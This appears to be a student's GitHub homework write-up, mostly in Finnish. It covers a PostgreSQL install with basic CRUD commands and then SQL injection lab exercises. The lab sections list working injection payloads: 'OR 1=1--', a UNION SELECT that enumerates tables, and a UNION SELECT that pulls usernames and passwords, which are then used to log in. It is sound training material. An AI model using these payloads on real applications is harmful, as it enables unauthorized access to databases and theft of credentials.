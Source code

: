 # h5

PostgreSQL Install and One Table Database – SQL CRUD tutorial for Ubuntu

Three line install
$ sudo apt-get update
$ sudo apt-get -y install postgresql
$ sudo systemctl start postgresql # needed in 2023
$ sudo -u postgres createdb $(whoami)
$ sudo -u postgres createuser $(whoami)
The trick is to use your Linux system username for PostgreSQL database and PostgreSQL user. Then authentication is automatic.

$ psql

table

tero=> CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));
CREATE TABLE

insert

tero=> INSERT INTO students(name) VALUES ('Tero');
INSERT 0 1

select

tero=> SELECT * FROM students;

update

tero=> UPDATE students SET name='Tero Karvinen' WHERE name='Tero';

UPDATE 1

delete

tero=> DELETE FROM students WHERE name='Liisa';
DELETE 1
tero=> SELECT * FROM students;

SQL injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

Passwords.
Credit card details.
Personal user information.

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. 

a.)
ensiksi asensin ja käynnistin postgreSQL tietokannan

![alku](https://github.com/AkiAleksi/h5/assets/112399816/194cd8be-a30c-43e2-a335-f66ab08e8ec7)


Sen jälkeen loin tietokannan ja käyttäjän.


$ sudo -u postgres createdb kali


$ sudo -u postgres createuser kali


Tein käyttäjästä kali databasen ownerin komennolla:



sudo -u postgres psql -c "ALTER DATABASE kali OWNER TO kali;"



![alku3](https://github.com/AkiAleksi/h5/assets/112399816/59879e3a-48f4-4867-9e67-2102bd76bae2)


Loin uuden taulun:

CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));

![1jee](https://github.com/AkiAleksi/h5/assets/112399816/d33a7880-6ad9-4c9e-b5be-d437df410e65)


CRUD
Loin uuden nimen tauluun.

INSERT INTO students(name) VALUES ('Aki');

Sen jälkeen tein Read kohdan komennolla:

SELECT * FROM students;

![2jee](https://github.com/AkiAleksi/h5/assets/112399816/0d4d2d24-e0f2-4c7d-b2b1-3793d2d516b6)


Päivitin nimen Aki. Nimeen Aki Hietamäki:

UPDATE students SET name='Aki Hietamäki' WHERE name='Aki Hietamäki'; 

![3jee](https://github.com/AkiAleksi/h5/assets/112399816/c6b810fb-84b6-487a-a866-d2884351726e)




Sen jälkeen poistin:

DELETE FROM students WHERE name='Aki';


![4jee](https://github.com/AkiAleksi/h5/assets/112399816/0d65a9ca-9814-4d9f-be7b-bd7765676269)


b.)

SELECT * FROM Users WHERE id = 10 OR 1=1;

Yläpuolella oleva SQL lause palauttaa kaikki rivit "Users" taulusta,
koska OR 1=1 on aina tosi. Vaikka id 10 ei ole mitään sisältöä.


id avain on valmiina ohjelmassa. Käyttäjän syöte on id:n arvo ja johon on jatkettu OR lause.


![xdddd](https://github.com/AkiAleksi/h5/assets/112399816/e7b429b9-d019-493d-a320-c45d753e8f7e)

c.)

Menin labissa niin, että sain category kohdan näkyviin.

![Screenshot 2023-11-24 at 14 12 37](https://github.com/AkiAleksi/h5/assets/112399816/f305305f-dbc7-41e8-b524-3ba3e7f4d075)

Muokkasin category parametria antamalla sille arvon '+OR+1=1--

![Screenshot 2023-11-24 at 14 13 13](https://github.com/AkiAleksi/h5/assets/112399816/c700b799-ade3-4bb8-a589-90c5960d7900)



d.)



![Screenshot 2023-11-24 at 14 22 13](https://github.com/AkiAleksi/h5/assets/112399816/6501edc1-4712-43ec-8f7b-467a8b1a8e89)



![Screenshot 2023-11-24 at 14 23 20](https://github.com/AkiAleksi/h5/assets/112399816/810df58f-6ba5-4ae5-82f7-c5a7e251c392)


e.)




![Screenshot 2023-11-24 at 15 17 33](https://github.com/AkiAleksi/h5/assets/112399816/b5504c02-1e81-435c-8e0a-71fd18f03f08)




f.)


![Screenshot 2023-11-24 at 16 37 05](https://github.com/AkiAleksi/h5/assets/112399816/34d1186f-c68b-4e5b-bddb-0fd5ed2d287a)





![Screenshot 2023-11-24 at 16 37 50](https://github.com/AkiAleksi/h5/assets/112399816/ffd305ee-84c6-4854-8f9b-ac9d991ad8f1)







![Screenshot 2023-11-24 at 16 38 20](https://github.com/AkiAleksi/h5/assets/112399816/87f1af3d-33dc-4e81-aac8-655b4e6d5826)



g.)


Etsin kaikki taulut tietokannasta

'union+select+table_name,'123'+from+all_tables--

![user1](https://github.com/AkiAleksi/h5/assets/112399816/088dba52-1367-410c-a349-a9108927e78d)



![user2](https://github.com/AkiAleksi/h5/assets/112399816/1993c581-7e6a-4209-a78e-a30807da7946)


Löytyi PASSWORD_ ja USERNAME_ sarakkeet

![Screenshot 2023-11-25 at 12 53 09](https://github.com/AkiAleksi/h5/assets/112399816/75ec55ae-f133-4273-a09f-b0a3406db76e)

'+union+select+PASSWORD_RNBGTX,USERNAME_ECTSRI+from+USERS_VYMYAO--


![info](https://github.com/AkiAleksi/h5/assets/112399816/2e9d88f1-7fb7-44bc-8d93-30671a33410d)


Kirjauduin tiedoilla MY account


![okkkk](https://github.com/AkiAleksi/h5/assets/112399816/344ac34f-7b55-4826-bfc8-baf0cd398285)


h.)

Katsoin läpikävelyn kyseisestä tehtävästä.

'UNION+SELECT+NULL,NULL--


internal server error

Lisäsin NULL niin kauan, että ei tullut erroria.

'UNION+SELECT+NULL,NULL,NULL,NULL--


![Screenshot 2023-11-25 at 13 38 10](https://github.com/AkiAleksi/h5/assets/112399816/fcbcb7f7-1bb3-4f1f-a7af-4aa00c957c6a)






![Screenshot 2023-11-25 at 13 34 49](https://github.com/AkiAleksi/h5/assets/112399816/5f0a0222-1079-415b-9746-a702579cc0c6)

i.)


![ggg](https://github.com/AkiAleksi/h5/assets/112399816/3b1b10d9-04ca-43c7-b75b-b905b4961710)




![Screenshot 2023-11-25 at 14 02 58](https://github.com/AkiAleksi/h5/assets/112399816/1d823a47-037a-41ec-ba18-5000374d0c37)



![Screenshot 2023-11-25 at 14 07 55](https://github.com/AkiAleksi/h5/assets/112399816/2035889e-45f1-4cec-93b7-696b26b7357f)

j.)




![admin1](https://github.com/AkiAleksi/h5/assets/112399816/87743028-bcfd-493f-92f9-4e1e5e23769b)





![kkkkkkkkkk](https://github.com/AkiAleksi/h5/assets/112399816/ce1024f6-f6f4-4688-a31e-710b8393cee5)






![ratkaisu](https://github.com/AkiAleksi/h5/assets/112399816/2bc8f513-880a-47d8-a856-45cdc6689196)

